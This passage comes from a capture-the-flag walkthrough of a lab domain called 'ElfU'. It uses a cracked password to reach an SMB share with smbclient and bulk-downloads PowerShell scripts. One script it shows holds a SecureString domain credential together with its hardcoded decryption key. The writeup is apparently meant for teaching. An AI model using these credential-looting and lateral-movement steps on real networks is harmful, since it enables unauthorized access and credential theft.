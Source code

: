 
### Step 5: Investigate the elfu_svc_shr File Share

Now that we know the password for the elfu_svc account (Snow2021!), we can use it to connect to the elfu_svc_shr file share that we found earlier.

``` title="ElfU System"
smbclient \\\\172.17.0.3\\elfu_svc_shr -U elfu_svc
```
??? info "Screenshot"
    ![](image9.png)

Looking at the files we find a lot of PowerShell scripts.  Retrieve them all to our local system so we can inspect them for anything interesting.<br>

``` title="ElfU System"
smb: \> prompt off
smb: \> mget *.ps1
```
??? info "Screenshot"
    ![](image10.png)

Now we search the files for anything that might provide us with additional access.  Possible things to search for would be the strings 'password' or 'username', but neither of those got any interesting results.  What does get a result is the string 'elfu.local', which is found in a single PowerShell script named 'GetProcessInfo.ps1'<br>

![](image11.png)


``` powershell title="GetProcessInfo.ps1"
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

